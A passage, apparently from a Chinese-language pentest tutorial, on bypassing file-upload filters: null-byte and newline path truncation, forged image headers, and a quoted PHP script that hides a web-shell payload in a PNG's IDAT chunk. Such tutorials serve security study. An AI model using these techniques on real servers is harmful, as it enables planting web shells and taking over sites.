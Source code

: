 如果上传文件的路径为：用户可控的上传路径/随机数.白名单中的后缀

正常情况下，服务器拼接得到的上传图像地址为`$img_path =../upload/5920201223231032.gif`

但是，用户如果在可控上传路径中写入一个php后缀，并且php后缀后面有一个`0x00`字符

服务器拼接得到的上传图像地址会变为`$img_path =../upload/xxx.php[0x00]/5920201223231032.gif`

对后缀进行白名单检测，为gif。但是保存在服务器上的文件，却是`xxx.php`，因为`0x00`之后的内容被截断了。

###### 3.2.4  ==0x0a==截断

原理和上面的类似

利用的思路也可以直接参考上面的。

到了这里还是没法成功的话，就往下面走吧

##### 3.3  内容及其他

###### 3.3.1 文件头检测

有些会对文件头的内容进行检测，如果不合法的话，也会被直接==pass==掉。这个时候只需要将 文件头改为合法的就可以了。

上传具有正常文件头的图片马即可。

```
gif`的文件头为`GIF89a`；`png`的文件头为`89504E47`；`jpg`的文件头为`FFD8FF
```

###### 3.3.2 二次渲染

在我们上传文件后，网站会对图片进行二次处理（格式、尺寸要求等），处理后在放到网站对应的标签进行显示。

这里需要绕过的方法可以自己找到 ==hex== 没有改变的地方。然后插入代码。

不同的文件类型的处理情况是不一样的，比如 gif 文件 他的 hex 没有修改的地方，相对于好找，就可以使用上面的方法。

但是如果是==png==格式的文件的情况下，上面的方法就不适用了。

png：写入IDAT数据块

使用脚本生成图片马

下面这个是转载别人写的脚本，我还没有能力写出来。

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
         0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
         0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
         0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
         0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
         0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
         0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
         0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
 $r = $p[$y];
 $g = $p[$y+1];
 $b = $p[$y+2];
 $color = imagecolorallocate($img, $r, $g, $b);
 imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'./idat.png');
?>

```
